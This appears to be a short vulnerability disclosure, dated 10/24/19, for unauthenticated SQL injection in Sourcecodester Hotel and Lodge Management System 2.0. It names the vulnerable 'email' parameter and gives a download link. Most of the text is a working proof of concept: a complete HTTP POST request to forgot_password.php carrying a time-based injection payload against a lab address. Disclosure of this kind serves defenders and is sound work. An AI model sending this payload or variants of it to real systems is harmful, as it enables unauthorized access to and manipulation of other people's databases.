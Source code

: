HOTEL AND LODGE MANAGEMENT SYSTEM 2.0 SQLI

Disclosure date: 10/24/19

Sourcecodester Hotel and Lodge Management System 2.0 is vulnerable to unauthenticated SQL injection and can allow remote attackers to execute arbitrary SQL commands via the 'email' parameter to the edit page for Customer, Room, Currency, Room Booking Details, or Tax Details.

download:

https://www.sourcecodester.com/php/13707/hotel-and-lodge-management-system.html

Proof of Concept:

http://192.168.234.128/forgot_password.php

POST:btn_forgot=1&email=1' or sleep(5)%23

POC:
```
POST /forgot_password.php HTTP/1.1
Host: 192.168.234.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

btn_forgot=1&email=1' or sleep(5)%23
```

![Image text](1.jpg)
![Image text](2.jpg)
![Image text](3.jpg)

